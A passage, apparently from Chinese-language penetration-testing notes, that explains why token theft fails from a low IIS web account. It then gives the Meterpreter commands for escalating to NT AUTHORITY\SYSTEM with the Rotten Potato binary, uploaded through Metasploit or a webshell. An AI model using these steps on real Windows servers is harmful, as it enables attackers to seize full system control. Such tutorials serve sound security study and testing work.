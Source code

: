 ![不用烂土豆提权](./烂土豆/不用烂土豆提权.png)

提权失败，单纯用令牌窃取提权需要有一定的权限，这里的权限太低。

单纯用令牌窃取提权需要有一个高一点的权限（administer），如果单纯是一个web权限（iis/defaultAPP），应该是无法成功的。（注意：如果先用令牌窃取失败，再尝试用烂土豆配合令牌窃取，可能会导致后者也失败，必须从头重新开始。所以最好直接使用烂土豆配合令牌窃取，不要测试这一步）

尝试用烂土豆配合令牌窃取提权。

先将烂土豆`potato.exe`上传到目标服务器。

```shell
upload potato.exe地址 上传的目标地址 # 使用msf上传，也可以使用webshell上传
```

![上传烂土豆](./烂土豆/上传烂土豆.png)

然后执行以下命令，成功提权。

```shell
cd 烂土豆的目录
execute -cH -f ./potato.exe
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```
